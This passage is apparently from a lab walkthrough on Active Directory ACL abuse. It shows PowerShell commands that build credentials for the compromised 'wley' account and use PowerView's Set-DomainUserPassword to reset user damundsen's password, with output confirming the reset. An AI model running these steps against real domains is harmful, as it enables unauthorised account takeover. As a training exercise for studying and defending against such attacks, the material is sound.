 # STEP 1 IN ACL ABUSE EXAMPLE. USE CURRENT ACCOUNT TO CHANGE PASSWORD OF OTHER ACCOUNT
## Creating a PSCredential Object

```Powershell
PS C:\htb> $SecPassword = ConvertTo-SecureString '<wley Password>' -AsPlainText -Force
PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```
Next, we must create a SecureString object which represents the password we want to set for the target user damundsen.
## Creating a SecureString Object

```Powershell
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

Finally, we'll use the Set-DomainUserPassword PowerView function to change the user's password. We need to use the -Credential flag with the credential object we created for the wley user. It's best to always specify the -Verbose flag to get feedback on the command completing as expected or as much information about errors as possible. We could do this from a Linux attack host using a tool such as pth-net, which is part of the pth-toolkit.
## Changing the User's Password

```Powershell
PS C:\htb> cd C:\Tools\
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'damundsen'
VERBOSE: [Set-DomainUserPassword] Password for user 'damundsen' successfully reset
```